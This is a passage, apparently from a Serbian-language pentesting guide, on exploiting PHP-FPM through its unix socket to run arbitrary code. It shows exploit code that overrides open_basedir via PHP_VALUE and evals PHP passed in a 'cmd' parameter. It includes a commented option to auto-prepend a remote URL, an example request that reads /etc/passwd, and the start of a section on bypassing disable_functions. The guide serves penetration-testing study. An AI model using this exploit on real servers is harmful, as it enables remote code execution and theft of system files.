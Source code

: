 ```php
//$php_value = "allow_url_include = On\nopen_basedir = /\nauto_prepend_file = http://127.0.0.1/e.php";
$params = array(
'GATEWAY_INTERFACE' => 'FastCGI/1.0',
'REQUEST_METHOD'    => 'POST',
'SCRIPT_FILENAME'   => $filepath,
'SCRIPT_NAME'       => $req,
'QUERY_STRING'      => 'command='.$_REQUEST['cmd'],
'REQUEST_URI'       => $uri,
'DOCUMENT_URI'      => $req,
#'DOCUMENT_ROOT'     => '/',
'PHP_VALUE'         => $php_value,
'SERVER_SOFTWARE'   => '80sec/wofeiwo',
'REMOTE_ADDR'       => '127.0.0.1',
'REMOTE_PORT'       => '9985',
'SERVER_ADDR'       => '127.0.0.1',
'SERVER_PORT'       => '80',
'SERVER_NAME'       => 'localhost',
'SERVER_PROTOCOL'   => 'HTTP/1.1',
'CONTENT_LENGTH'    => strlen($code)
);
// print_r($_REQUEST);
// print_r($params);
//echo "Call: $uri\n\n";
echo $client->zahtev($params, $code)."\n";
?>
```

Ovi skriptovi će komunicirati sa **unix socket-om php-fpm**-a (obično smeštenim u /var/run ako se koristi fpm) kako bi izvršili proizvoljni kod. Podešavanja `open_basedir` će biti prebrisana atributom **PHP\_VALUE** koji se šalje.\
Primetite kako se koristi `eval` da bi se izvršio PHP kod koji šaljete unutar parametra **cmd**.\
Takođe, primetite **komentarisani red 324**, možete ga odkomentarisati i **payload će automatski se povezati sa datom URL-om i izvršiti sadržani PHP kod**.\
Jednostavno pristupite `http://vulnerable.com:1337/l.php?cmd=echo file_get_contents('/etc/passwd');` da biste dobili sadržaj datoteke `/etc/passwd`.

{% hint style="warning" %}
Možda mislite da na isti način na koji smo prebrisali konfiguraciju `open_basedir` možemo **prebrisati `disable_functions`**. Pa, pokušajte, ali neće uspeti, izgleda da **`disable_functions` može biti konfigurisan samo u `.ini` php** konfiguracionoj datoteci i promene koje vršite koristeći PHP\_VALUE neće biti efektivne na ovoj specifičnoj postavci.
{% endhint %}

## Bypass disable\_functions

Ako uspete da izvršite PHP kod unutar mašine, verovatno želite da pređete na sledeći nivo i **izvršite proizvoljne sistemsko naredbe**. U ovoj situaciji je uobičajeno otkriti da su većina ili sve PHP **funkcije** koje omogućavaju **izvršavanje sistemskih naredbi onemogućene** u **`disable_functions`.**\
Pogledajmo kako možete zaobići ovu restrikciju (ako možete)
